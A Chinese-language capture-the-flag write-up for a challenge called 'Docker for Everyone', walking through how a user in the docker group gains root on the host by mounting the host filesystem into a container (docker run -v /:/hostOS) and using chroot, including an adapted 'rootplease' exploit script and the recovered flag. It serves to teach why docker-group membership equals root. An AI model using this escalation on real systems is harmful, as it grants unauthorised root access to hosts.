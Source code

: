 ## 12. Docker for Everyone

### 尝试与解决

> 关键词：搜索

#### 先让我看到 flag 在哪

简单探索 flag 的位置，

```plain
alpine:~$ cd /
alpine:/$ ls -l
total 69
--- snip ---
drwxr-xr-x   28 root     root          4096 Oct 25 12:59 etc
lrwxrwxrwx    1 root     root            13 Oct  8 12:10 flag -> /dev/shm/flag
drwxr-xr-x    3 root     root          4096 Oct  4 08:39 home
--- snip ---
alpine:/$ ls -l /dev/shm/
total 4
-r--------    1 root     root           512 Nov  4 11:10 flag
alpine:/$ 
```

没错，`/flag` 是一个指向 `/dev/shm/flag` 的符号链接，而 `/dev/shm/flag` 只有 `root` 用户才能读取。看起来这题要做的就是利用 Docker 越权读取这个文件。

#### 搜索漏洞

看起来这是个 Docker 题，甚至是利用 Docker 的漏洞，真不熟。然而，题目分类指明了方向——这根本不是 binary 题，而是个 general 题。

X 是实验室机器的管理员，为了在保证安全的同时让同学们都用上 docker，他把同学的账号加入了 docker 用户组，这样就不需要给同学 sudo 权限了！大概率**不止 X 一人**是这么想的。但既然有这道题，**事实肯定并非如此**。如此严重的安全误区，网上一定有所警示，不妨搜搜看。

搜索“is it safe to add user to docker group”，果不其然，网上许多文章推荐使用这种做法，理由就是使用 Docker 的用户不需要访问 `sudo`，非常“安全”。然而，很快我们就找到了一个问题：[What are the advantages of putting a user into the `docker` group instead of granting her `sudo` access to the host?](https://serverfault.com/questions/929115/what-are-the-advantages-of-putting-a-user-into-the-docker-group-instead-of-gra)

为什么这个标题是很重要的线索呢？题主问的是，为什么将用户放入 `docker` 组比授予她 `sudo` 访问权更好呢？这意味着，题主很可能已经意识到，放入 `docker` 用户组实际上和授予 `sudo` 访问权没有区别！看看正文，果然，

> However, by granting an unprivileged user the power to create arbitrary containers, it seems that user gains effective root access to the host: for example, it becomes quite easy that way to modify the host fs through bind mounts. Or to interact with the kernel via `procfs`/`sysfs`. So what's the point in putting someone into the `docker` group rather than giving that user root access to the system?

后面还紧跟着一个评论，

> Or the user could just [load a nice convenient Docker container that throws them straight into a root shell](https://fosterelli.co/privilege-escalation-via-docker.html).
>
> Granting access to the docker socket does indeed virtually guarantee the ability to escalate privileges.

两人都认为授予 Docker 完全访问权相当于授予 root 权限，而且后者给了一个用来获取 root 权限的 Docker 容器示例，

```plain
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```

正是解决这道题所需要的。

#### 修改容器代码

然而题目环境没有网络，我们并不能直接部署 `chrisfosterelli/rootplease`。不过，我们可以去 GitHub 上找来[这个容器的源代码](https://github.com/chrisfosterelli/dockerrootplease)。出奇的简单，只有两个文本文件 `Dockerfile` 和 `exploit.sh`。`Dockerfile` 的内容如下：

```docker
FROM ubuntu:20.04
COPY exploit.sh /exploit.sh
CMD ["/bin/bash", "exploit.sh"]
```

要将这个容器在题目环境中跑起来，需要更改两处：

首先，容器基于 `ubuntu:20.04`，题目环境没有网络，是无法获取的。但是，题目提供了已经部署好的 `alpine:latest` 环境。因此将第一行改成：

```docker
FROM alpine:latest
```

其次，题目提供的 `alpine:latest` 中没有 `/bin/bash`，只有 `/bin/sh`。因此将第三行改成：

```docker
CMD ["/bin/sh", "exploit.sh"]
```

#### 起爆容器

题目环境的 `~` 下是只读的，无法创建我们容器所需的文件。但是，有一个地方几乎总是可以的——虚拟内存盘 `/dev/shm`。

题目环境没有 `vim`，没有 `nano`。但是，执行命令 `cp /dev/tty <filename>`，然后将文本内容粘贴进去，按 Ctrl + D（表示 EOF），就可以创建文本文件。

```plain
alpine:~$ cd /dev/shm
alpine:/dev/shm$ mkdir exploit
alpine:/dev/shm$ cd exploit
alpine:/dev/shm/exploit$ cp /dev/tty Dockerfile
FROM alpine:latest
COPY exploit.sh /exploit.sh
CMD ["/bin/sh", "exploit.sh"]
alpine:/dev/shm/exploit$ cp /dev/tty exploit.sh
if [ ! -d "/hostOS" ]; then
--- snip ---
chroot /hostOS /bin/sh
alpine:/dev/shm/exploit$ 
```

然后按照 GitHub 仓库中的提示运行，

```
alpine:/dev/shm/exploit$ docker build -t rootplease .
DEPRECATED: The legacy builder is deprecated and will be removed in a future release.
            Install the buildx component to build images with BuildKit:
            https://docs.docker.com/go/buildx/

Sending build context to Docker daemon  3.584kB
Step 1/3 : FROM alpine:latest
 ---> 187eae39ad94
Step 2/3 : COPY exploit.sh /exploit.sh
 ---> 4e090535ee31
Step 3/3 : CMD ["/bin/sh", "exploit.sh"]
 ---> Running in 4bca2f8ee2ce
Removing intermediate container 4bca2f8ee2ce
 ---> abde7172dff2
Successfully built abde7172dff2
Successfully tagged rootplease:latest
alpine:/dev/shm/exploit$ docker run -v /:/hostOS -it --rm rootplease

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
/ # 
```

现在我们有了一个 root shell 了，可以迫不及待地，

```plain
/ # cat /flag
flag{u5e_r00t1ess_conta1ner_4e2c3bbf62_plz!}
/ # 
```

### Flag

```plain
flag{u5e_r00t1ess_conta1ner_4e2c3bbf62_plz!}
```

Use rootless container, please!

不只是 Docker for everyone，还是 Root for everyone！因此，出题人建议使用 rootless container。不过具体怎么搞我也不到啊。

### 想清楚

这道题算是被“投机取巧”地做完了。但是，既然 `rootplease` 容器的代码这么短，为何不一探究竟，看看提权是如何实现的呢？我们看看 `exploit.sh` 做了啥。

```bash
if [ ! -d "/hostOS" ]; then
  # --- snip --- (show error)
  exit
fi

if [ ! -f "/hostOS/bin/sh" ] && [ ! -L "/hostOS/bin/sh" ]; then
  # --- snip --- (show error)
  exit
fi

# --- snip --- (show notice)
chroot /hostOS /bin/sh
```

似乎唯一的工作就是以 `/hostOS` 为根目录启动了一个容器内的 shell。看起来，`/hostOS` 是一个指向宿主系统的目录，为什么会这样呢？这是因为运行时加了一个参数：

```plain
alpine:/dev/shm/exploit$ docker run -v /:/hostOS -it --rm rootplease
```

没错，就是 `-v /:/hostOS`。我们运行题目所给的 `alpine` 容器时应该可以如法炮制。

```plain
alpine:~$ docker run -it --rm -v /:/hostOS alpine
/ # cd /hostOS
/hostOS # ls
bin         flag        media       root        swap        var
boot        home        mnt         run         sys
dev         lib         opt         sbin        tmp
etc         lost+found  proc        srv         usr
/hostOS # cat /flag
cat: can't open '/flag': No such file or directory
/hostOS # 
```

有了！但是无法读取，为什么呢？因为符号链接现在指向的是**容器内的** `/dev/shm/flag`。有两种方法解决：

其一，按照 `rootplease` 容器内的做法，更换根目录到 `/hostOS`，

```plain
/hostOS # chroot . /bin/sh
/ # cat /flag
flag{u5e_r00t1ess_conta1ner_4e2c3bbf62_plz!}
/ # 
```

其二，直接读取 `/hostOS/dev/shm/flag`，

```plain
/hostOS # cat dev/shm/flag
flag{u5e_r00t1ess_conta1ner_4e2c3bbf62_plz!}
/hostOS # 
```

这题的正常做法应该就是这样（而不是向奇怪的 `/dev/shm` 里写入一堆奇怪的 Docker 文本文件并执行）。
